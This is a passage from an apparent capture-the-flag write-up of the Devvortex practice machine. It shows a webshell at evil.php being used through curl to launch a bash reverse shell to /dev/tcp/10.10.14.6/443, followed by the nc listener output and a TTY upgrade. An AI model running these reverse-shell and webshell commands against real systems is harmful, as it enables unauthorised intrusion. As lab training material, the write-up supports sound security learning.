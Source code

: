 [اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=sdF8YSPHql4){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

At the end, I have a webshell:

![](/img/image-20240423150735374.png)

### Shell

From either webshell, I'll get a shell by running a standard [bash
reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) with it:



    oxdf@hacky$ curl http://dev.devvortex.htb/plugins/search/webshell/evil.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'



I get a connection at `nc`:



    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.242 57742
    bash: cannot set terminal process group (877): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$



I'll upgrade my shell with [the standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@devvortex:~/dev.devvortex.htb/plugins/search/webshell$ 



## Shell as logan

### Enumeration
